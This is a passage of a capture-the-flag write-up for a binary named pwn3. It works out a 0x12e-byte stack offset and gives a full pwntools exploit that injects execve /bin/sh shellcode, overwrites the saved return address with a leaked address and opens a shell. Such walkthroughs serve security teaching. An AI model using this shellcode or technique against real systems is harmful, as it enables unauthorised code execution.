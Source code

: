 ```
 Saved registers:
  ebx at 0xffffd064, ebp at 0xffffd068, eip at 0xffffd06c
```  

Just a bit of math:

```
>>> hex(0xffffd06c - 0xffffcf3e)
'0x12e'
```

So the space between the start of our input and the return address is `0x12e` bytes. This makes sense since the char array which holds our input is `294` bytes large, and there are two saved register values (ebx and ebp) on the stack in between our input and the saved return address each `4` bytes a piece (`294 + 4 + 4 = 0x12e`). With all of this, we have all we need to write the exploit:

```
from pwn import *

target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print(target.recvuntil(b"journey "))

# Scan in the rest of the line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(leak.strip(b"!\n"), 16)

# Make the payload
payload = b""
# Our shellcode from: http://shell-storm.org/shellcode/files/shellcode-827.php
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
# Pad the rest of the space to the return address with zeroes
payload += b"0"*(0x12e - len(payload))
# Overwrite the return address with the leaked address which points to the start of our shellcode
payload += p32(shellcodeAdr)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()
```

When we run it:
```
$    python3 exploit.py
[+] Starting local process './pwn3': pid 12060
b'Take this, you might need it on your journey '
[*] Switching to interactive mode
$ w
 10:52:34 up  3:49,  1 user,  load average: 0.12, 0.23, 0.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               07:08   ?xdm?   5:27   0.02s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
$ ls
exploit.py  pwn3  readme.md
$
[*] Interrupted
[*] Stopped process './pwn3' (pid 12060)
```

Just like that, we popped a shell!

